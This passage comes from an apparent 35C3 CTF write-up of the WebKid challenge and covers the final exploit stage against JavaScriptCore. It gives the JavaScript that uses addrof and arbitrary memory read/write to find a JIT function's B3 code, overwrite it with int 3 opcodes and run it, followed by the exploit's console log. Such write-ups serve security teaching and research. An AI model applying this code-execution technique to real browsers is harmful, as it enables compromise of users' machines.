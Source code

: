 The Debug offsets are the same, except for `m_b3Code` which is at the offset `368`.

#### Putting it All Together

The final stage of the exploit is to change the code of a JIT compiled function.

We can use the previously defined function `get_jit_compiled_function ` which returns a JIT compiled function.

```javascript
var jit_compiled_func = get_jit_compiled_function();
```

Now, using the address of this object, we will calculate the address where the B3 code is located.

```javascript
var jit_compiled_func_addr = addrof(jit_compiled_func);
var executable_addr = memory.readInt64(Add(jit_compiled_func_addr, 24));
var jit_code_addr = memory.readInt64(Add(executable_addr, 24));
var b3code_addr = memory.readInt64(Add(jit_code_addr, 368));
```

The only remaining step is to change the code at `b3code_addr` by arbitrary opcodes. In our case it will be `int 3` instructions, since we can't do anything fancy, like popping a shell, because of the sandbox. 

```javascript
memory.write(b3code_addr, [0xcc, 0xcc, 0xcc]);
```

The last step is to execute the hijacked function.

```javascript
jit_compiled_func();
```

If everything worked as expected, JavaScriptCore should SIGTRAP.

```
[+] =========================================================
[+] (ﾉ◕ヮ◕)ﾉ*:・ﾟ✧ 35C3CTF - WebKid Exploit (ﾉ◕ヮ◕)ﾉ*:・ﾟ✧
[+] =========================================================
[+]
[+] Step 1: Constructing addrof and fakeobj primitives
[+] --------------------------------------------------
[+]	JIT compilation of get_first_elmt and set_first_elmt.
[+]	addrof and fakeobj constructed.
[+]
[+] Step 2: Constructing arbitrary read and write primitives
[+] --------------------------------------------------------
[+]	Spraying structures of double arrays to guess their ID.
[+]	Creating the fake double array: hax.
[+]	Object "container" containing hax @ 0x00000001146c8500
[+]	Fake object hax @ 0x00000001146c8510
[+]	Arbitrary read and write primitives created.
[+]	Arbitrary read and write tests:
[+]		Creating obj.
[+]		obj.b @ 0x00000001146c8bb8 = 0xfedcba9876543000
[+]		Object obj @ 0x00000001146c8ba0
[+]		obj.a @ 0x00000001146c8bb0 = 0x0124456789abcdf0
[+]		obj.b @ 0x00000001146c8bb8 = 0xfeddba9876543000
[+]		Writing obj.a into obj.b
[+]		obj.b @ 0x00000001146c8bb8 = 0x0123456789abcdf0
[+]		Tests passed!
[+]
[+] Step 3: Arbitrary Code Execution
[+] --------------------------------
[+]	JIT compiling jit_compiled_func
[+]	JSC::JSFunction jit_compiled_func @ 0x0000000114c19b30
[+]		+-> JSC::ExecutableBase m_executable @ 0x00000001146ff4f0
```